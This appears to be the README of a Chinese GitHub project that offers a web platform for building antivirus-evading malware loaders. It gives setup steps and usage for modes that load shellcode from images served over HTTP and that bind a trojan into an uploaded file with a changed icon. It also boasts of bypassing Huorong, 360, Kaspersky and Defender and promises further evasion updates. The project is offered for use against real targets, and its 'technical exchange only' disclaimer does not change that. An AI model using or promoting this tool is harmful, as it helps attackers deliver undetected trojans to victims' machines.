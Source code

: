 # cool
- Golang Gin 框架写的免杀平台- (2021.11.12)
- Golang Gin 框架写的免杀平台，更新捆绑免杀- (2021.11.20)
## 安装
1. 安装Go环境，版本要**1.17**及以上；
2. 如果是首次安装Go环境，安装完毕后要配置代理，执行以下这两条命令:
 -  **go env -w GO111MODULE=on** 
 -  **go env -w GOPROXY=https://goproxy.io,direct** 
3. 完毕后执行 **go install mvdan.cc/garble@latest** ；
4. 下载本项目到D盘根目录，文件夹名字改为cool；
5. 运行cool.exe；
6. 访问 **http://127.0.0.1:9000** 。

## 使用
为减去浏览器扫描的时间，故生成的文件格式为txt，使用时只需要把后缀修改为前端提示的后缀就可以了。
### 1. 加密1
- 直接执行exe。
### 2. 加密2
- 直接执行exe。
### 3. 分离1(houqing) 
(目前这个测试已经不过火绒了，查杀点为"异或"，下个版本更新绕过异或查杀。)
- 用python起一个HTTP服务(python -m http.server 8080)，
- 把图片放到起http服务的目录下，
- 执行exe 参数为http服务的图片路径（xxx.exe http://127.0.0.1:8080/a.jpg)。
### 4. 分离2
#### 上线方式1
- 用python起一个HTTP服务(python -m http.server 8080)，
- 把图片放到起http服务的目录下，
- 执行exe 参数为http服务的图片路径（xxx.exe http://127.0.0.1:8080/a.jpg)。
#### 上线方式2
- 执行xxx.exe 参数为shellcode.txt里的内容 。
### 5. 捆绑上线
- 填写信息(免杀方式、listeners或者shellcode等)，
- 上传需要和木马捆绑的文件，
- 下载完毕后将后缀改为exe，
- 图标自行修改。

目前火绒、360、卡巴斯基、def全过；先这样用，不能bypass了再说，更新频率看star数量🐕。

## 声明：仅用于技术交流，请勿用于非法用途。
